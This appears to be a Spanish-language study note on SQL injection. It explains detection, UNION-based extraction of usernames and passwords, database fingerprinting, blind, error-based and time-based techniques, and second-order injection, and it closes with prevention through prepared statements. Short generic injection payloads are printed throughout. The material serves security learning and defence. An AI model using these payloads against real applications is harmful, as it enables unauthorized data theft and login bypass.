 # Inyecciones SQLi (SQL Injection)

## ¿Qué es la inyección SQL?
La inyección [SQLi](SQLi.md) es una vulnerabilidad que permite a un atacante manipular las consultas SQL de una aplicación para acceder, modificar o eliminar datos en una base de datos. Se produce cuando la entrada del usuario no se valida ni se sanitiza correctamente, permitiendo la ejecución de código SQL malicioso.

---

## Cómo detectar vulnerabilidades de inyección SQL
Algunos métodos para identificar si una aplicación es vulnerable a SQLi incluyen:
- **Pruebas manuales:** Insertar caracteres especiales (`'`, `"`, `;`, `--`, `#`, etc.) en los campos de entrada y observar errores.
- **Errores de la base de datos:** Mensajes como `syntax error` pueden indicar una vulnerabilidad.
- **Automatización:** Uso de herramientas como [SQLmap](SQLmap.md) para detectar y explotar SQLi.

---

## Recuperar datos ocultos
A veces, los datos de la base de datos están ocultos, pero la inyección SQL puede revelar información oculta al modificar consultas, por ejemplo:
```sql
SELECT * FROM productos WHERE id = '1' OR '1'='1';
```

---

## Subvertir la lógica de la aplicación
Los atacantes pueden modificar consultas para eludir la autenticación:
```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND clave = '' OR '1'='1';
```
Esto permite iniciar sesión sin conocer la contraseña real.

---

## Inyección SQL UNION attacks
Permite unir múltiples consultas SQL para extraer datos de otras tablas.

### Determinar el número de columnas requeridas
```sql
ORDER BY nº; -- Probamos incrementando 'n' hasta encontrar un error
```

### Encontrar columnas con un tipo de datos útil
```sql
UNION SELECT NULL, NULL, 'texto';
```

### Uso de un ataque UNION de inyección SQL para recuperar datos interesantes
```sql
UNION SELECT nombre, clave FROM usuarios;
```

### Recuperar múltiples valores dentro de una sola columna
```sql
UNION SELECT nombre || ' - ' || clave FROM usuarios;
```

---

## Examinar la base de datos
Los atacantes pueden obtener información sobre la estructura de la base de datos.

### Identificar la base de datos en uso
```sql
SELECT @@version; -- Para MySQL
SELECT version(); -- Para PostgreSQL
SELECT banner FROM v$version; -- Para Oracle
```

### Listar tablas y columnas
```sql
SELECT table_name FROM information_schema.tables;
SELECT column_name FROM information_schema.columns WHERE table_name='usuarios';
```

---

## Inyección SQL ciega
Cuando la aplicación no devuelve errores directos, se pueden usar técnicas como:

### Explotar la inyección SQL ciega desencadenando respuestas condicionales
```sql
AND 1=1 -- [Devuelve verdadero]
AND 1=2 -- [Devuelve falso]
```

### Inyección SQL basada en errores
Forzar la aplicación a mostrar errores:
```sql
AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT);
```

### Explotar la inyección SQL ciega desencadenando retrasos de tiempo
```sql
IF(1=1, SLEEP(5), 0);
```

### Explotar la inyección SQL ciega utilizando técnicas fuera de banda (OAST)
Enviar consultas a servidores externos para filtrar datos.

---

## Inyección SQL en diferentes contextos
- **En URLs:** `https://victima.com/perfil?id=1' OR '1'='1`.
- **En formularios:** Campos de login vulnerables.
- **En encabezados HTTP:** Manipulación de cookies o User-Agent.

---

## Inyección SQL de segundo orden
Los datos maliciosos se almacenan en la base de datos y ejecutan la inyección en otro contexto.

Ejemplo: Un usuario malicioso registra su nombre como:
```sql
admin' --
```
Cuando un administrador lo consulta en otra página, la inyección se ejecuta.

---

## 🛡️ Cómo prevenir la inyección SQL
✅ **Usar consultas preparadas** con `?` o `bind_param()`:
```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```
✅ **Validar y sanitizar entradas del usuario.**
✅ **Principio de menor privilegio:** No usar cuentas con permisos excesivos.
✅ **Firewalls de aplicaciones web (WAF).**

---
**Conclusión:** La inyección SQL sigue siendo una de las vulnerabilidades más peligrosas, pero con buenas prácticas y medidas de seguridad adecuadas, se puede mitigar el riesgo de ataque.
